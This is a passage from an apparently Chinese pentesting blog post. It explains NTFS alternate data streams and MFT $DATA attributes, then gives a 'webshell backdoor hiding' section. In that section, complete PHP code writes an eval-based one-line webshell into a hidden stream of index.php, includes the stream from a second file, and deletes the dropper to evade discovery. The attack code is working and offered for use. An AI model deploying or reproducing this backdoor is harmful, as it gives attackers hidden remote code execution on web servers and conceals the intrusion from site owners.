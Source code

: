 **原理分析：** 

好，现在我们以及初步了解了文件流的特性。再来看看NTFS文件流实现原理： 

如文件大小，文件创建时间，文件修改时间，文件名，文件内容等被组织成属性来存放，NTFS定义了一序列的文件属性： 

![ntfs](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2017-03-29/11.png)

详细说明可以搜索NTFS3G，这些属性统一组织在NTFS的MFT（Master File 
Table）上，每个MFT大小1024个字节，MFT的\$DATA属性即是前面提到的文件流，通常来说包含多个不同名字的\$DATA属性即说明该文件存在多个文件流，下图是winhex打开1.txt定位到1.txt的MFT，我们实际看一下NTFS是如何组织的：

![ntfs](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2017-03-29/12.png)

## Pentesting With NTFS

### Webshell后门隐藏

写一个PHP的Webshell，首先网站的默认首页是index.php，所以使用了第一段代码：

```php
exec('echo "<?php @eval($_POST[key]);?>">>index.php:key.php');
```

直接写一个一句话内容到key.php这个文件流中。 
其次，文件流是不可能直接执行的，但是PHP可以使用包含函数：

```php
$key = <<<key 
echo "<?php include 'index.php:key.php';?>">>a.php 
key; 
exec($key); 
```

最后，为了不被发现要删除本身文件： 

```php
$url = $_SERVER['PHP_SELF']; 
$filename= substr($url,strrpos($url,'/')+1); 
@unlink($filename); 
```

最终代码：

```php
<?php
exec('echo "<?php @eval($_POST[key]);?>">>index.php:key.php');

$key = <<<key
echo "<?php include 'index.php:key.php';?>">>a.php
key;

exec($key);
$url = $_SERVER['PHP_SELF'];
$filename= substr($url,strrpos($url,'/')+1);
@unlink($filename);
?> 
```
